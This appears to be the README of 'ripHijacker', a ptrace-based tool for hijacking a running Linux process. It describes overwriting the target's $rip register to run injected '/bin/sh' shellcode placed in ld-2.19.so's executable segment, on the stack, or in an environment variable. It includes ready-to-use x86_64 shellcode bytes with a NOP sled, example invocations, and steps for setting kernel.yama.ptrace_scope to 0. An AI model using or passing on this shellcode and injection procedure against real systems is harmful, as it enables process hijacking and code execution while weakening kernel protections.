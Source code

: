 # ripHijacker

#DESCRIPTION:

- It allows you to inject an hardcoded "/bin/sh" shellcode into the executable segment /lib/x86_64-linux-gnu/ld-2.19.so of the target process and to overwrite its $rip register with the address of that segment.
- It allows you to inject an hardcoded "/bin/sh" shellcode into the stack of the target process and to overwrite its $rip register with the address pointed by its $rsp register.                       
- It allows you to overwrite the $rip register of the target process with the address of an environment variable located in the target's stack.

##SYNOPSIS: 
```bash
$./ripHijacker [OPTIONS]
```

##OPTIONS:
```
-p <target_pid>:        pid of the target process.
-z <0|1>:               if enabled (1), it overwrites the $rip register with an address of the target's stack.
-e <env_var>:           name of the environment variable on which the $rip register will point at.
-n <target_progr_name>: name of the target.
```
(-e and -n options must be used together and only if -z is enabled)

##EXAMPLES:

```bash
 $./ripHijacker -p 6666
 ```
 
 ```bash
 $./ripHijacker -p 6666 -z 1
 ````
 
 We can load a simple /bin/sh shellcode in an environment variable with the comand:
 ```bash
 
 export A=$(python -c "print '\x90' * 20 + '\xeb\x1f\x5f\x48\x31\xc0\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xff\x48\x83\xc0\x7f\x48\x83\xc0\x2d\x0f\x05\xe8\xdc\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'")
 ```
 
Now we can use -e and -n options:

 ```bash
 $./ripHijacker -p 6666 -z 1 -e A -n target_name
```

##NOTES:
ripHijacker uses ptrace. 
```
"A PTRACE scope of "0" is the more permissive mode.  A scope of "1" limits
PTRACE only to direct child processes.."
```
So we can change scope of ptrace with these commands:
```bash
$sudo vim  /etc/sysctl.d/10-ptrace.conf
```
..and setting.. 
```bash
kernel.yama.ptrace_scope = 0
```
..after that we must load the new settings with:
```bash
$sudo sysctl --system -a -p | grep  yama
```

Obviously, to use '-z 1' option the target program must be compiled with the "-z execstack" option and to use -e and -n options the environment variable must be loaded before the program target execution.

##ACKNOWLEDGEMENT:

Vorrei ringraziare Fabio Blacklight ed il suo vecchio ma geniale programma meminj.c che mi ha permesso di venire a 
conoscenza dell'utilità di ptrace ed anche Crossbower che mi ha dato l'idea su come effettuare l'attacco ld_inj




